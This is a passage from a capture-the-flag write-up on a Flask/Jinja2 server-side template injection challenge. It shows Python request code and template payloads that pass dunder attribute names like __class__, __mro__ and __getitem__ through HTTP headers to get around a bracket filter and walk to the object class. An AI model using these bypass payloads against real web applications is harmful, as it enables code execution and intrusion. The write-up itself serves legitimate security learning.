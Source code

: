 ```py

print(payload)

response = requests.get('https://uoftctf-my-first-app.chals.io/dashboard', cookies={"auth_token":auth}, headers=headers)

if '500' in response.text:
    print('Internal Server Error')
elif 'BLOCKED' in response.text:
    print(response.text)
else:
    result = response.text.split('\n')[15][38:-6]
    print(html.unescape(result))
```

We get:


{% ccb wrapped:true lang:python terminal:true %}
(<class 'flask.wrappers.Request'>, <class 'werkzeug.wrappers.request.Request'>, <class 'werkzeug.sansio.request.Request'>, <class 'object'>)
{% endccb %}

we want to access `<class 'object'>`. Unfortunately, `[` and `]` was blocked, so we have to use the `__getitem__` dunder:

```py
mro = "(request|attr(request.pragma)|attr(request.mimetype))" # request.__class__.__mro__
getitem = "request.referrer" # __getitem__
payload = "{{" + f"({mro}|attr({getitem}))(3)" + "}}" # request.__class__.__mro__.__getitem__(3)

headers = {
    "Pragma": "__class__",
    "Content-Type": "__mro__",
    "Referer": "__getitem__",
}
```

We will finally get `<class 'object'>`. We can now smuggle in `__subclasses__()` and then...

## we have ran out of header names

We have appeared to run out of header names. 

One way to solve this (which was the original way by the author) is to use `__getitem__` to import characters, and then use those characters to access the header. Basically, something like:

```py
pragma = "request.pragma"
getitem = "request.referrer"
headers = "request.mimetype"
request_headers = f"(request|attr({headers}))" # request.headers 
pragma_str = f"({pragma}|attr({getitem}))(0)" # HeaderSet(['0123456789']).__getitem__(0) = "0123456789"
zero = f"({pragma_str}|attr({getitem}))(0)" #"0123456789".__getitem__(0) = "0"

# request_headers is https://tedboy.github.io/flask/generated/generated/werkzeug.EnvironHeaders.get.html
payload = "{{" + f"{request_headers}.get({zero})" + "}}" # werkzeug.EnvironHeaders.get()

headers = {
    "Pragma": "0123456789",
    "Referer": "__getitem__",
    "Content-Type": "headers",
    "0": "amogus",
}
```
